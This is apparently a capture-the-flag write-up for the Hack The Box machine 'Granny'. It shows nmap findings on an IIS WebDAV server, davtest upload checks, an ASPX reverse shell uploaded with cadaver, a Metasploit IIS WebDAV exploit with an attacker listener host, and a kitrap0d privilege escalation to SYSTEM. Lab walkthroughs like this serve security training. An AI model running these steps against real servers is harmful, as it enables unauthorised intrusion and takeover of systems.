 Box: Windows
Level: Easy
### Index
1. WebDAV Exploitation 
2. Cadaver - WebDav client for Linux
3. davtest - Command line utility to check if you're allowed to upload file using PUT/Move Method. Uploads random files 
4. local_exploit_Suggester.


Following HTTP Methods were supported
```
http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
```

The IIS Server has the WebDev enabled as per nmap 
```
http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path>
```

Now Here are couple of lessons that I have learned. Running local_exploit_suggester gives me couple of exploits that might work however, none of them were worked. I tried winPEAS.bat and didn't find a proper path to privilege escalation. During the nmap enumeration, I found the following thing enabled on the box.

```
_http-iis-webdav-vuln: WebDAV is ENABLED. No protected folder found; check not run. If you know a protected folder, add --script-args=webdavfolder=<path
```

WebDAV was ENABLED. I used the following two tools to check whether I am allowed to upload on the target.
```
$ davtest -move -sendbd auto -url http://granny.htb/
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://granny.htb
********************************************************
NOTE    Random string for this session: f4my2eP
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://granny.htb/DavTestDir_f4my2eP
********************************************************
 Sending test files (MOVE method)
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_jsp.txt
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp
MOVE    jsp     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.jsp;.txt
PUT     txt     SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP_html.txt
MOVE    html    SUCCEED:        http://granny.htb/DavTestDir_f4my2eP/davtest_f4my2eP.html
^C
```

Following to this, I used the 'cadaver'  which is a command line WebDav client for Linux to put the Shell.aspx 
```
cadaver http://granny.htb/
dav:/DavTestDir_f4my2eP/> put shell2.aspx 
Uploading shell2.aspx to `/DavTestDir_f4my2eP/shell2.aspx':
Progress: [=============================>] 100.0% of 3015 bytes failed:
```

I got the reverse shell by visiting the http://granny.htb/DavTestDir_f4my2eP/shell2.aspx. NetCat Listener was started. Now I did the same thing with msfconsole. 
```
use exploit/windows/iis/iis_webdav_scstoragepathfromurl
set RHOST 10.10.10.15
set LHOST 10.10.16.5
exploit

meterpreter>shell
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

From here, I had to reset this machine 3 times to use the local_exploit_suggester. I got the following suggestion from the local exploit suggester.
```
1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
```

Out of which I used exploit/windows/local/ms10_015_kitrap0d to get the system shell.

